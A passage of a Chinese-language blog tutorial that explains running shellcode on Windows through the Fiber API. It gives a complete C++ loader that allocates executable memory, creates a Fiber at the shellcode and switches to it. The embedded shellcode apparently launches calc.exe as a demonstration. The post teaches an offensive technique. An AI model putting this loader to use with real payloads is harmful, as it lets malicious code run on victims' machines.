 不確定有沒有人會搞混 Fiber 和 Thread 兩個執行單位，這邊比較一下兩者的差異。兩者最大的差別在於排程的方式，Fiber 是 Cooperative，Thread 是 Pre-emptive(這是普遍情形，還是要看作業系統)。也就是說，Fiber 不需要擔心 Race Condition 的問題，因為同個時間只有一個 Fiber 能動，而停止與執行的位址都是使用者定義的；然而 Thread 可以被中斷在任何地方，而且可以同時執行多個 Thread，所以要小心處理資料的完整性。

### 利用
既然我們可以控制 Fiber 在任何位址執行，那就可以把執行的位址設在我們的 Shellcode。當呼叫 SwitchToFiber 時就會開始執行 Shellcode。

### 實作步驟
1. 用 VirtualAlloc 分配記憶體空間給 Shellcode，記憶體保護為 PAGE_EXECUTE_READWRITE，並把 Shellcode 放進這塊記憶體
2. 呼叫 ConvertThreadToFiber 讓 Caller 和 Fiber 可以對 Fiber 進行排程
3. 用 CreateFiber 建立一個 Fiber，起始位址為我們的 Shellcode
4. 呼叫 SwitchToFiber 開始執行上一步建立的 Fiber
5. 釋放 Fiber Handle 與記憶體

### POC
程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/Shellcode%E8%88%87%E4%BB%96%E7%9A%84%E5%BF%AB%E6%A8%82%E5%A4%A5%E4%BC%B4/ShellcodeLoaderFiber)。
```cpp=
#include <windows.h>

int main()
{
    char shellcode[] = "\x50\x53\x51\x52\x56\x57\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x64\x8B\x1D\x30\x00\x00\x00\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x24\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x44\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3";

    // 1. 用 VirtualAlloc 分配記憶體空間給 Shellcode，記憶體保護為 PAGE_EXECUTE_READWRITE，並把 Shellcode 放進這塊記憶體
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));

    // 2. 呼叫 ConvertThreadToFiber 讓 Caller 和 Fiber 可以對 Fiber 進行排程
    PVOID mainFiber = ConvertThreadToFiber(NULL);

    // 3. 用 CreateFiber 建立一個 Fiber，起始位址為我們的 Shellcode
    PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)Memory, NULL);

    // 4. 呼叫 SwitchToFiber 開始執行上一步建立的 Fiber
    SwitchToFiber(shellcodeFiber);

    // 5. 釋放 Fiber Handle 與記憶體
    DeleteFiber(shellcodeFiber);
    return 0;
}
```
